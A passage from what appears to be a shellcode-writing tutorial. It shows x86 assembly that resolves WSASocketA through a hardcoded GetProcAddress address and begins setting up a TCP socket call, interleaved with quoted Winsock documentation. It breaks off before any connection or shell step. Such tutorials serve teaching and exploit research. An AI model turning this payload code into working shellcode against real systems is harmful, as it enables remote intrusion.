 > If the version requested by the application is equal to or higher than the lowest version supported by the Winsock DLL, the call succeeds and the Winsock DLL returns detailed information in the WSADATA structure pointed to by the lpWSAData parameter.

And also:

> It is legal and possible for an application or DLL written to use a lower version of the Windows Sockets specification that is supported by the Winsock DLL to successfully negotiate this lower version using the WSAStartup function. For example, an application can request version 1.1 in the wVersionRequested parameter passed to the WSAStartup function on a platform with the Winsock 2.2 DLL. In this case, the application should only rely on features that fit within the version requested.

## Get WSASocketA with GetProcAddress
This step is simmilar to `Get WSAStartup with GetProcAddress`. The only difference is the string passed.

~~~
.getWSASocketA:
	xor eax, eax

	mov ax, 0x4174      ; 'At'
	push eax
	push 0x656b636f     ; 'ekco'
	push 0x53415357     ; 'SASW'
	push esp	    ;pointer to the string

	push ebp	    ;socket handler
	
	mov ebx, 0x7c80ae40 ;addr of GetProcAddress
	call ebx
~~~

## Call WSASocketA
From the [docs](https://docs.microsoft.com/en-us/windows/desktop/api/winsock2/nf-winsock2-wsasocketa):

> The WSASocket function creates a socket that is bound to a specific transport-service provider.

And for the syntax:

~~~
SOCKET WSAAPI WSASocketA(
  int                 af,		//2 (IPv4)
  int                 type,		//1 (SOCK_STREAM)
  int                 protocol,		//6 (IPPROTO_TCP)
  LPWSAPROTOCOL_INFOA lpProtocolInfo,	//NULL
  GROUP               g,		//0 (no group operation)
  DWORD               dwFlags		//NULL
);
~~~

Lets set up the stack:

~~~
.callWSASocketA:
	xor ebx, ebx		;clear ebx
	push ebx;		;dwFlags=NULL
	push ebx;		;g=NULL
	push ebx;		;lpProtocolInfo=NULL
	
	xor ecx, ecx		;clear ecx
	mov cl, 0x6		;protocol=6
	push ecx

	inc ebx			;ebx==1
	push ebx		;type=1
	inc ebx			;af=2
~~~